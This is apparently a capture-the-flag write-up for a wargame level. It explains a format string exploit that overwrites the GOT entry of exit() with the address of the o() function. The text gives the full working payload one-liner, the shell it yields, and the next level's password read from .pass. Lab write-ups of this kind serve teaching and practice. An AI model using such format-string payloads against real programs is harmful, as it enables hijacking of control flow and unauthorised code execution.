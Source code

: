 Same as the last exercice, `String format exploit` again.

For this one, we need `printf()` to evaluate an `EIP` address and change the address by `o()` function :

`0x8049838` represents `exit()` **Global Offset Table** address, so we apply `%134513824x%4$n` - 4 (exit() **Global Offset Table** address) to change address by `0x080484a4` : 
```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' ; cat) | ./level5
whoami
level6
cat level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```